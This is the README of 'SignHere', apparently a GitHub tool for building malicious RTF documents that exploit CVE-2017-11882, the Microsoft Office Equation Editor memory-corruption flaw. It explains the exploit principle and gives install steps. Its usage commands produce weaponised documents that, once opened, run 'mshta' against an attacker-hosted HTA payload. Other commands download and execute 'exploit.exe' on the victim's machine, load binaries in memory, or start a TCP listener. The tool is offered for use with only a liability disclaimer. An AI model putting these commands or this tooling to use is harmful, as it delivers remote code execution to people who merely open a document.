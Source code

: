## SignHere
<b>Introduction</b>

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Atention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload.

<b>--ip</b>
Argument with ip address that will be used for web-server. (default: 127.0.0.1)

<b>--output</b>
Name and path of document.

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --temp exploit.exe --ip 192.168.1.74 --output generated.rtf
```

<b>--temp</b>
Argument that will use binary file as payload (binary file will start in RAM memory).

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --payload exploit.exe --ip 192.168.1.74 --listener-host 192.168.1.74 --output generated.rtf
```

<b>--payload</b>
Argument that will download file on computer of victim and execute it.

<b>--listener-host</b>
Argument for starting TCP listener on curret ip (default: 127.0.0.1)
